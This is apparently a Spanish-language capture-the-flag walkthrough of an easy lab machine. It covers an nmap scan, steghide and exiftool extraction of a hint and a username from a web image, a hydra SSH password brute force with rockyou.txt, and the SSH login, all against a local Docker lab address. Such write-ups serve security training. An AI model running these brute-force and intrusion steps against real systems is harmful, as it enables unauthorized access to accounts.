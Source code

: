 
**Autor:** [BorazuwarahCTF

**Dificultad:** Muy Fácil

**Fecha de creación:** 28/05/2024


DESPLIEGUE

```
bash auto_deploy.sh borazuwarahctf.tar
```


![Img](./images/1.png)






------------------------
PROCEDIMIENTO:

Tenemos la IP: 
```
172.17.0.2
```



---------------------------

RECONOCIMIENTO

```
nmap -p- -sS -sV -sC --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

`-p-` ⮞ aplicar reconocimiento a todos los puertos  
`--open` ⮞ solo a los que estén abiertos  
`--min-rate 5000` ⮞ para enviar paquetes más rápido  
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida  
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla  
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)  
`-Pn` ⮞ ignora si esta activa o no la IP  
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)


![Img](./images/2.png)



Nos vamos a la página web y nos sale :


![Img](./images/3.png)


Nos descargamos la imagen y veremos si tiene algún archivo oculto. Haremos el siguiente comando:

```
steghide extract -sf imagen.jpeg
```

![Img](./images/4.png)


```
cat secreto.txt
```

![Img](./images/5.png)


Lo cual nos da una pista. Buscaremos  más información dentro de esta imagen como son los metadatos , usaremos `exiftool`, por lo cual usando el comando 

```
exiftool imagen.jpeg
```

![Img](./images/6.png)

Y ahí tenemos un usuario `borazuwarah`

Ahora fuerza bruta. 

```
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![Img](./images/7.png)

```
ssh borazuwarah@172.17.0.2
```
![Img](./images/8.png)


Y ya estamos adentro. 


![](./images/Pasted%20image%2020241120182640.png)
